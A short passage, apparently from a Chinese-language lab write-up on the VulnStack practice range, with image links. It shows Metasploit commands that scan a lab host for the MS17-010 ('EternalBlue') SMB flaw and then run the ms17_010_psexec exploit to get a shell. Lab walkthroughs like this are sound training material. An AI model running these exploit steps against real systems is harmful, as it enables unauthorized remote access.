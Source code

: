 ![img](VulnStack(1)/images/image-4.png)

发现开放445端口 尝试 "永恒之蓝"


就在这个msfconsole
```
use auxiliary/scanner/smb/smb_ms17_010

set RHOSTS 192.168.52.141

exploit
```


![img](VulnStack(1)/images/image-5.png)

发现漏洞存在 
尝试获取shell

```
use windows/smb/ms17_010_psexec
set RHOST 192.168.52.141
exploit
```
